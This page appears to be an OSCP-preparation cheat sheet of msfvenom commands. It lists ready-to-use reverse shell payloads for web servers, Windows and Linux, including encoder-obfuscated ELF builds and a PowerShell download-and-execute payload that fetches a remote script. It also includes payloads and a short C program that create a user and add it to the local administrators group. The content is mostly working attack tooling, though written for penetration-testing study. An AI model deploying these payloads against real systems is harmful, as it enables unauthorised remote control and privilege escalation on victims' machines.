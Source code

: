 ```yaml
---
description: Generate payload with MSFvenom
---
```


# Generate Payload

### Listing

```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
msfvenom -l platforms #Platforms
```

{% hint style="info" %}
**Note**: I created this page during my OSCP preparation. All payloads here are for gaining a reverse shell through Netcat, as Metasploit (or Meterpreter) is prohibited.
{% endhint %}

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

Execute Command

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows \
-p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" \
-f exe > pay.exe
```
{% endcode %}

```bash
msfvenom -a x86 --platform Windows -p \
windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

Reverse Shell

* x86

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f exe -o Remote.exe
```

* x64

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o shell.exe
```

### Linux

* x86

```bash
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=1337 \
-e x86/shikata_ga_nai -f elf > asuka-x86.elf
```

* x64

```bash
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp \
LHOST=<IP> LPORT=1337 -e x64/xor_dynamic -f elf > asuka.elf
```

### MSFvenom Payload Creator (MSFPC)

* [https://github.com/g0tmi1k/msfpc](https://github.com/g0tmi1k/msfpc)

### Add Windows User

**adduser.c**

{% code overflow="wrap" %}
```c
#include <stdlib.h>

int main ()
{
	int i;
	i = system ("net user admoon Linuxsec#1337 /add");
	i = system ("net localgroup administrators admoon /add");

		return 0;
}
```
{% endcode %}

Compile:

{% code overflow="wrap" %}
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
{% endcode %}
